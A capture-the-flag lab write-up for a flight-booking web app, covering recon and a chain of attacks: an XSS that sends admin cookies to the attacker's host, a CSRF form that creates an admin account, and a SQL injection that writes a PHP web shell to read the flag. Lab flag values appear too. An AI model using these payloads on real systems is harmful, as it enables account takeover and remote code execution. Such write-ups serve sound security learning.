# **Screamin Firehawk**

---
## **LOCAL.TXT**

## **Run Nmap to see running services**
```
sudo nmap -O -Pn 192.168.152.121
```
 

## **Run Gobuster for directory/file enumeration**
```
gobuster dir -u 192.168.152.121 -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

This gives some interesting endpoints such as /admin,/login which those requires authentication.

 

Here we can see interesting endpoints like /administration but it requires authentication.

## **Try removing XSRF token from registration request**

- Try to create a user with Register option. Observe the request.
Its passing XSRF-TOKEN.

 

- Try to create a user without XSRF-TOKEN. You can see it gives 200 OK response.

 

- Now try to login with the newly created user. Now you can login with admin access. Here you can find the local.txt flag.




### local.txt flag:  f27e43abee7efa566713f9669e361c5f

## **Using XSS**
- Register with a guest account and log in to the website.

- Host xss.js file in in http server on port 80 which will steal the admin cookie and send back to our kali machine.
```
fetch("http://192.168.45.165:80/exfil?data="+encodeURIComponent(document.cookie))
```

Use below payload in Book flight form in text area filed.

```
<script src="http://192.168.45.165:80/xss.js"></script>
```




Once the form is submited wait for sometime, so when the admin user will visit the page, then our payload will gets executed and will send the admin cookie to our kali machine.



After decoding it using URL, we will get the cookie.

## **Chaining CSRF attack with XSS**
- Intercept the register user request. Here you may notice one interesting parameter called : type with value 51. Try to fuzz this value using intruder, which may give us the type for admin role.



which means using type=100, the admin accout can be created. But with current test user we are we can't create an admin user.
So we need to use CSRF payload to trick the admin user to execute the request to create an admin account for us.

- Submit below CSRF payload on text area field
CSRF Payload:
```
<html>
  <body>
    <form action="/loginLogout" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="&#95;token" value="EiTeYZh7AjVQ0fqLRNcKfclmiGhLVMhPSFir1B3Z" />
      <input type="hidden" name="username" value="offsec" />
      <input type="hidden" name="password" value="offsec" />
      <input type="hidden" name="firstName" value="offsec" />
      <input type="hidden" name="lastName" value="offsec" />
      <input type="hidden" name="email" value="offsec@offsec.com" />
      <input type="hidden" name="dType" value="isRegister" />
      <input type="hidden" name="type" value="100" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```



Once the form is submited wait for sometime, so when the admin user will visit the page, then our CSRF payload will get executed and the admin user account will be created.

- Now login with the newly created account: username-offsec and password-offsec. The local.txt flag can be found there.


---

## **PROOF.TXT**

- On /editFlight requirest test for sql injection using sqlmap. This gives flightNum parameter is vulnerable to sql injection.

```
sqlmap -r edit_flight_sqli.txt --batch
```



Thsi can also be verified by adding ' for flightNum parameter which gives SQL error.



- Now try to take shell through sqlmap.
```
sqlmap -r edit_flight_sqli.txt -p flightNum --dbms PostgreSQL --os-shell  --batch
```

But unable to locate the proof.txt file.



- Now read the hint.



- So lets try to copy a php webshell in /var/tmp/ folder.

```
1';copy(select '<?php passthru($_GET[''cmd'']);?>') to '/var/tmp/cmd.php'; -- 
```


- Now try to access it from browser from backups folder.
```
http://192.168.152.121/backups/cmd.php?cmd=ls
```



- Here you can see the proof.txt file, We can read it using below where we can find the proof.txt flag.

```
http://192.168.152.121/backups/cmd.php?cmd=cat%20proof.txt
```



### proof.txt flag: 34acfb019bd0da41ca314c02b03e28d8
